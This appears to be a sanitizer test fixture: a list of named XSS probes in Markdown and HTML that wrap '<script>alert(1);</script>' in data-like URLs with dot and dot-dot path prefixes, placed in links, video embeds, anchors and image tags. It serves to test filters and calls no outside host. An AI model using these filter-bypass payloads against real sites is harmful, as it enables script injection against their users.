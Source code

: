 javascript
[11](.alert(1);)

[XSS](./..alert(1);)

[XSS](.\alert(1);)

# VIDEO (Markdown)
![VIDEO-src-Hierarchical](.text/html,<script>alert(1);</script>fake.mp4)

![VIDEO-src-Hierarchical-DoubleDot](..text/html,<script>alert(1);</script>fake.mp4)

![VIDEO-src-Hierarchical-DotSlashDotDotSlash](./../text/html,<script>alert(1);</script>fake.mp4)

![VIDEO-src-Extname](text/html,<script>alert(1);</script>fake.mp4)

# HTML A href (Markup)
<a href=".text/html,<script>alert(1);</script>">MARKUP-A-href-Hierarchical-Dot</a>

<a href="..text/html,<script>alert(1);</script>">MARKUP-A-href-Hierarchical-DotDot</a>

<a href="./../text/html,<script>alert(1);</script>">MARKUP-A-href-Hierarchical-DotSlashDotDotSlash</a>

<a href="text/html,<script>alert(1);</script>fake.text">MARKUP-A-href-Extname</a>

# HTML IMG (Markup)
<img src=".text/html,<script>alert(1);</script>" alt="MARKUP-IMG-src-Hierarchical-Dot"></img>

<img src="..text/html,<script>alert(1);</script>" alt="MARKUP-IMG-src-Hierarchical-DotDot"></img>

<img src="./../text/html,<script>alert(1);</script>" alt="MARKUP-IMG-src-Hierarchical-DotSlashDotDotSlash"></img>

<img src="text/html,<script>alert(1);</script>fake.text" alt="MARKUP-IMG-src-Extname"></img>
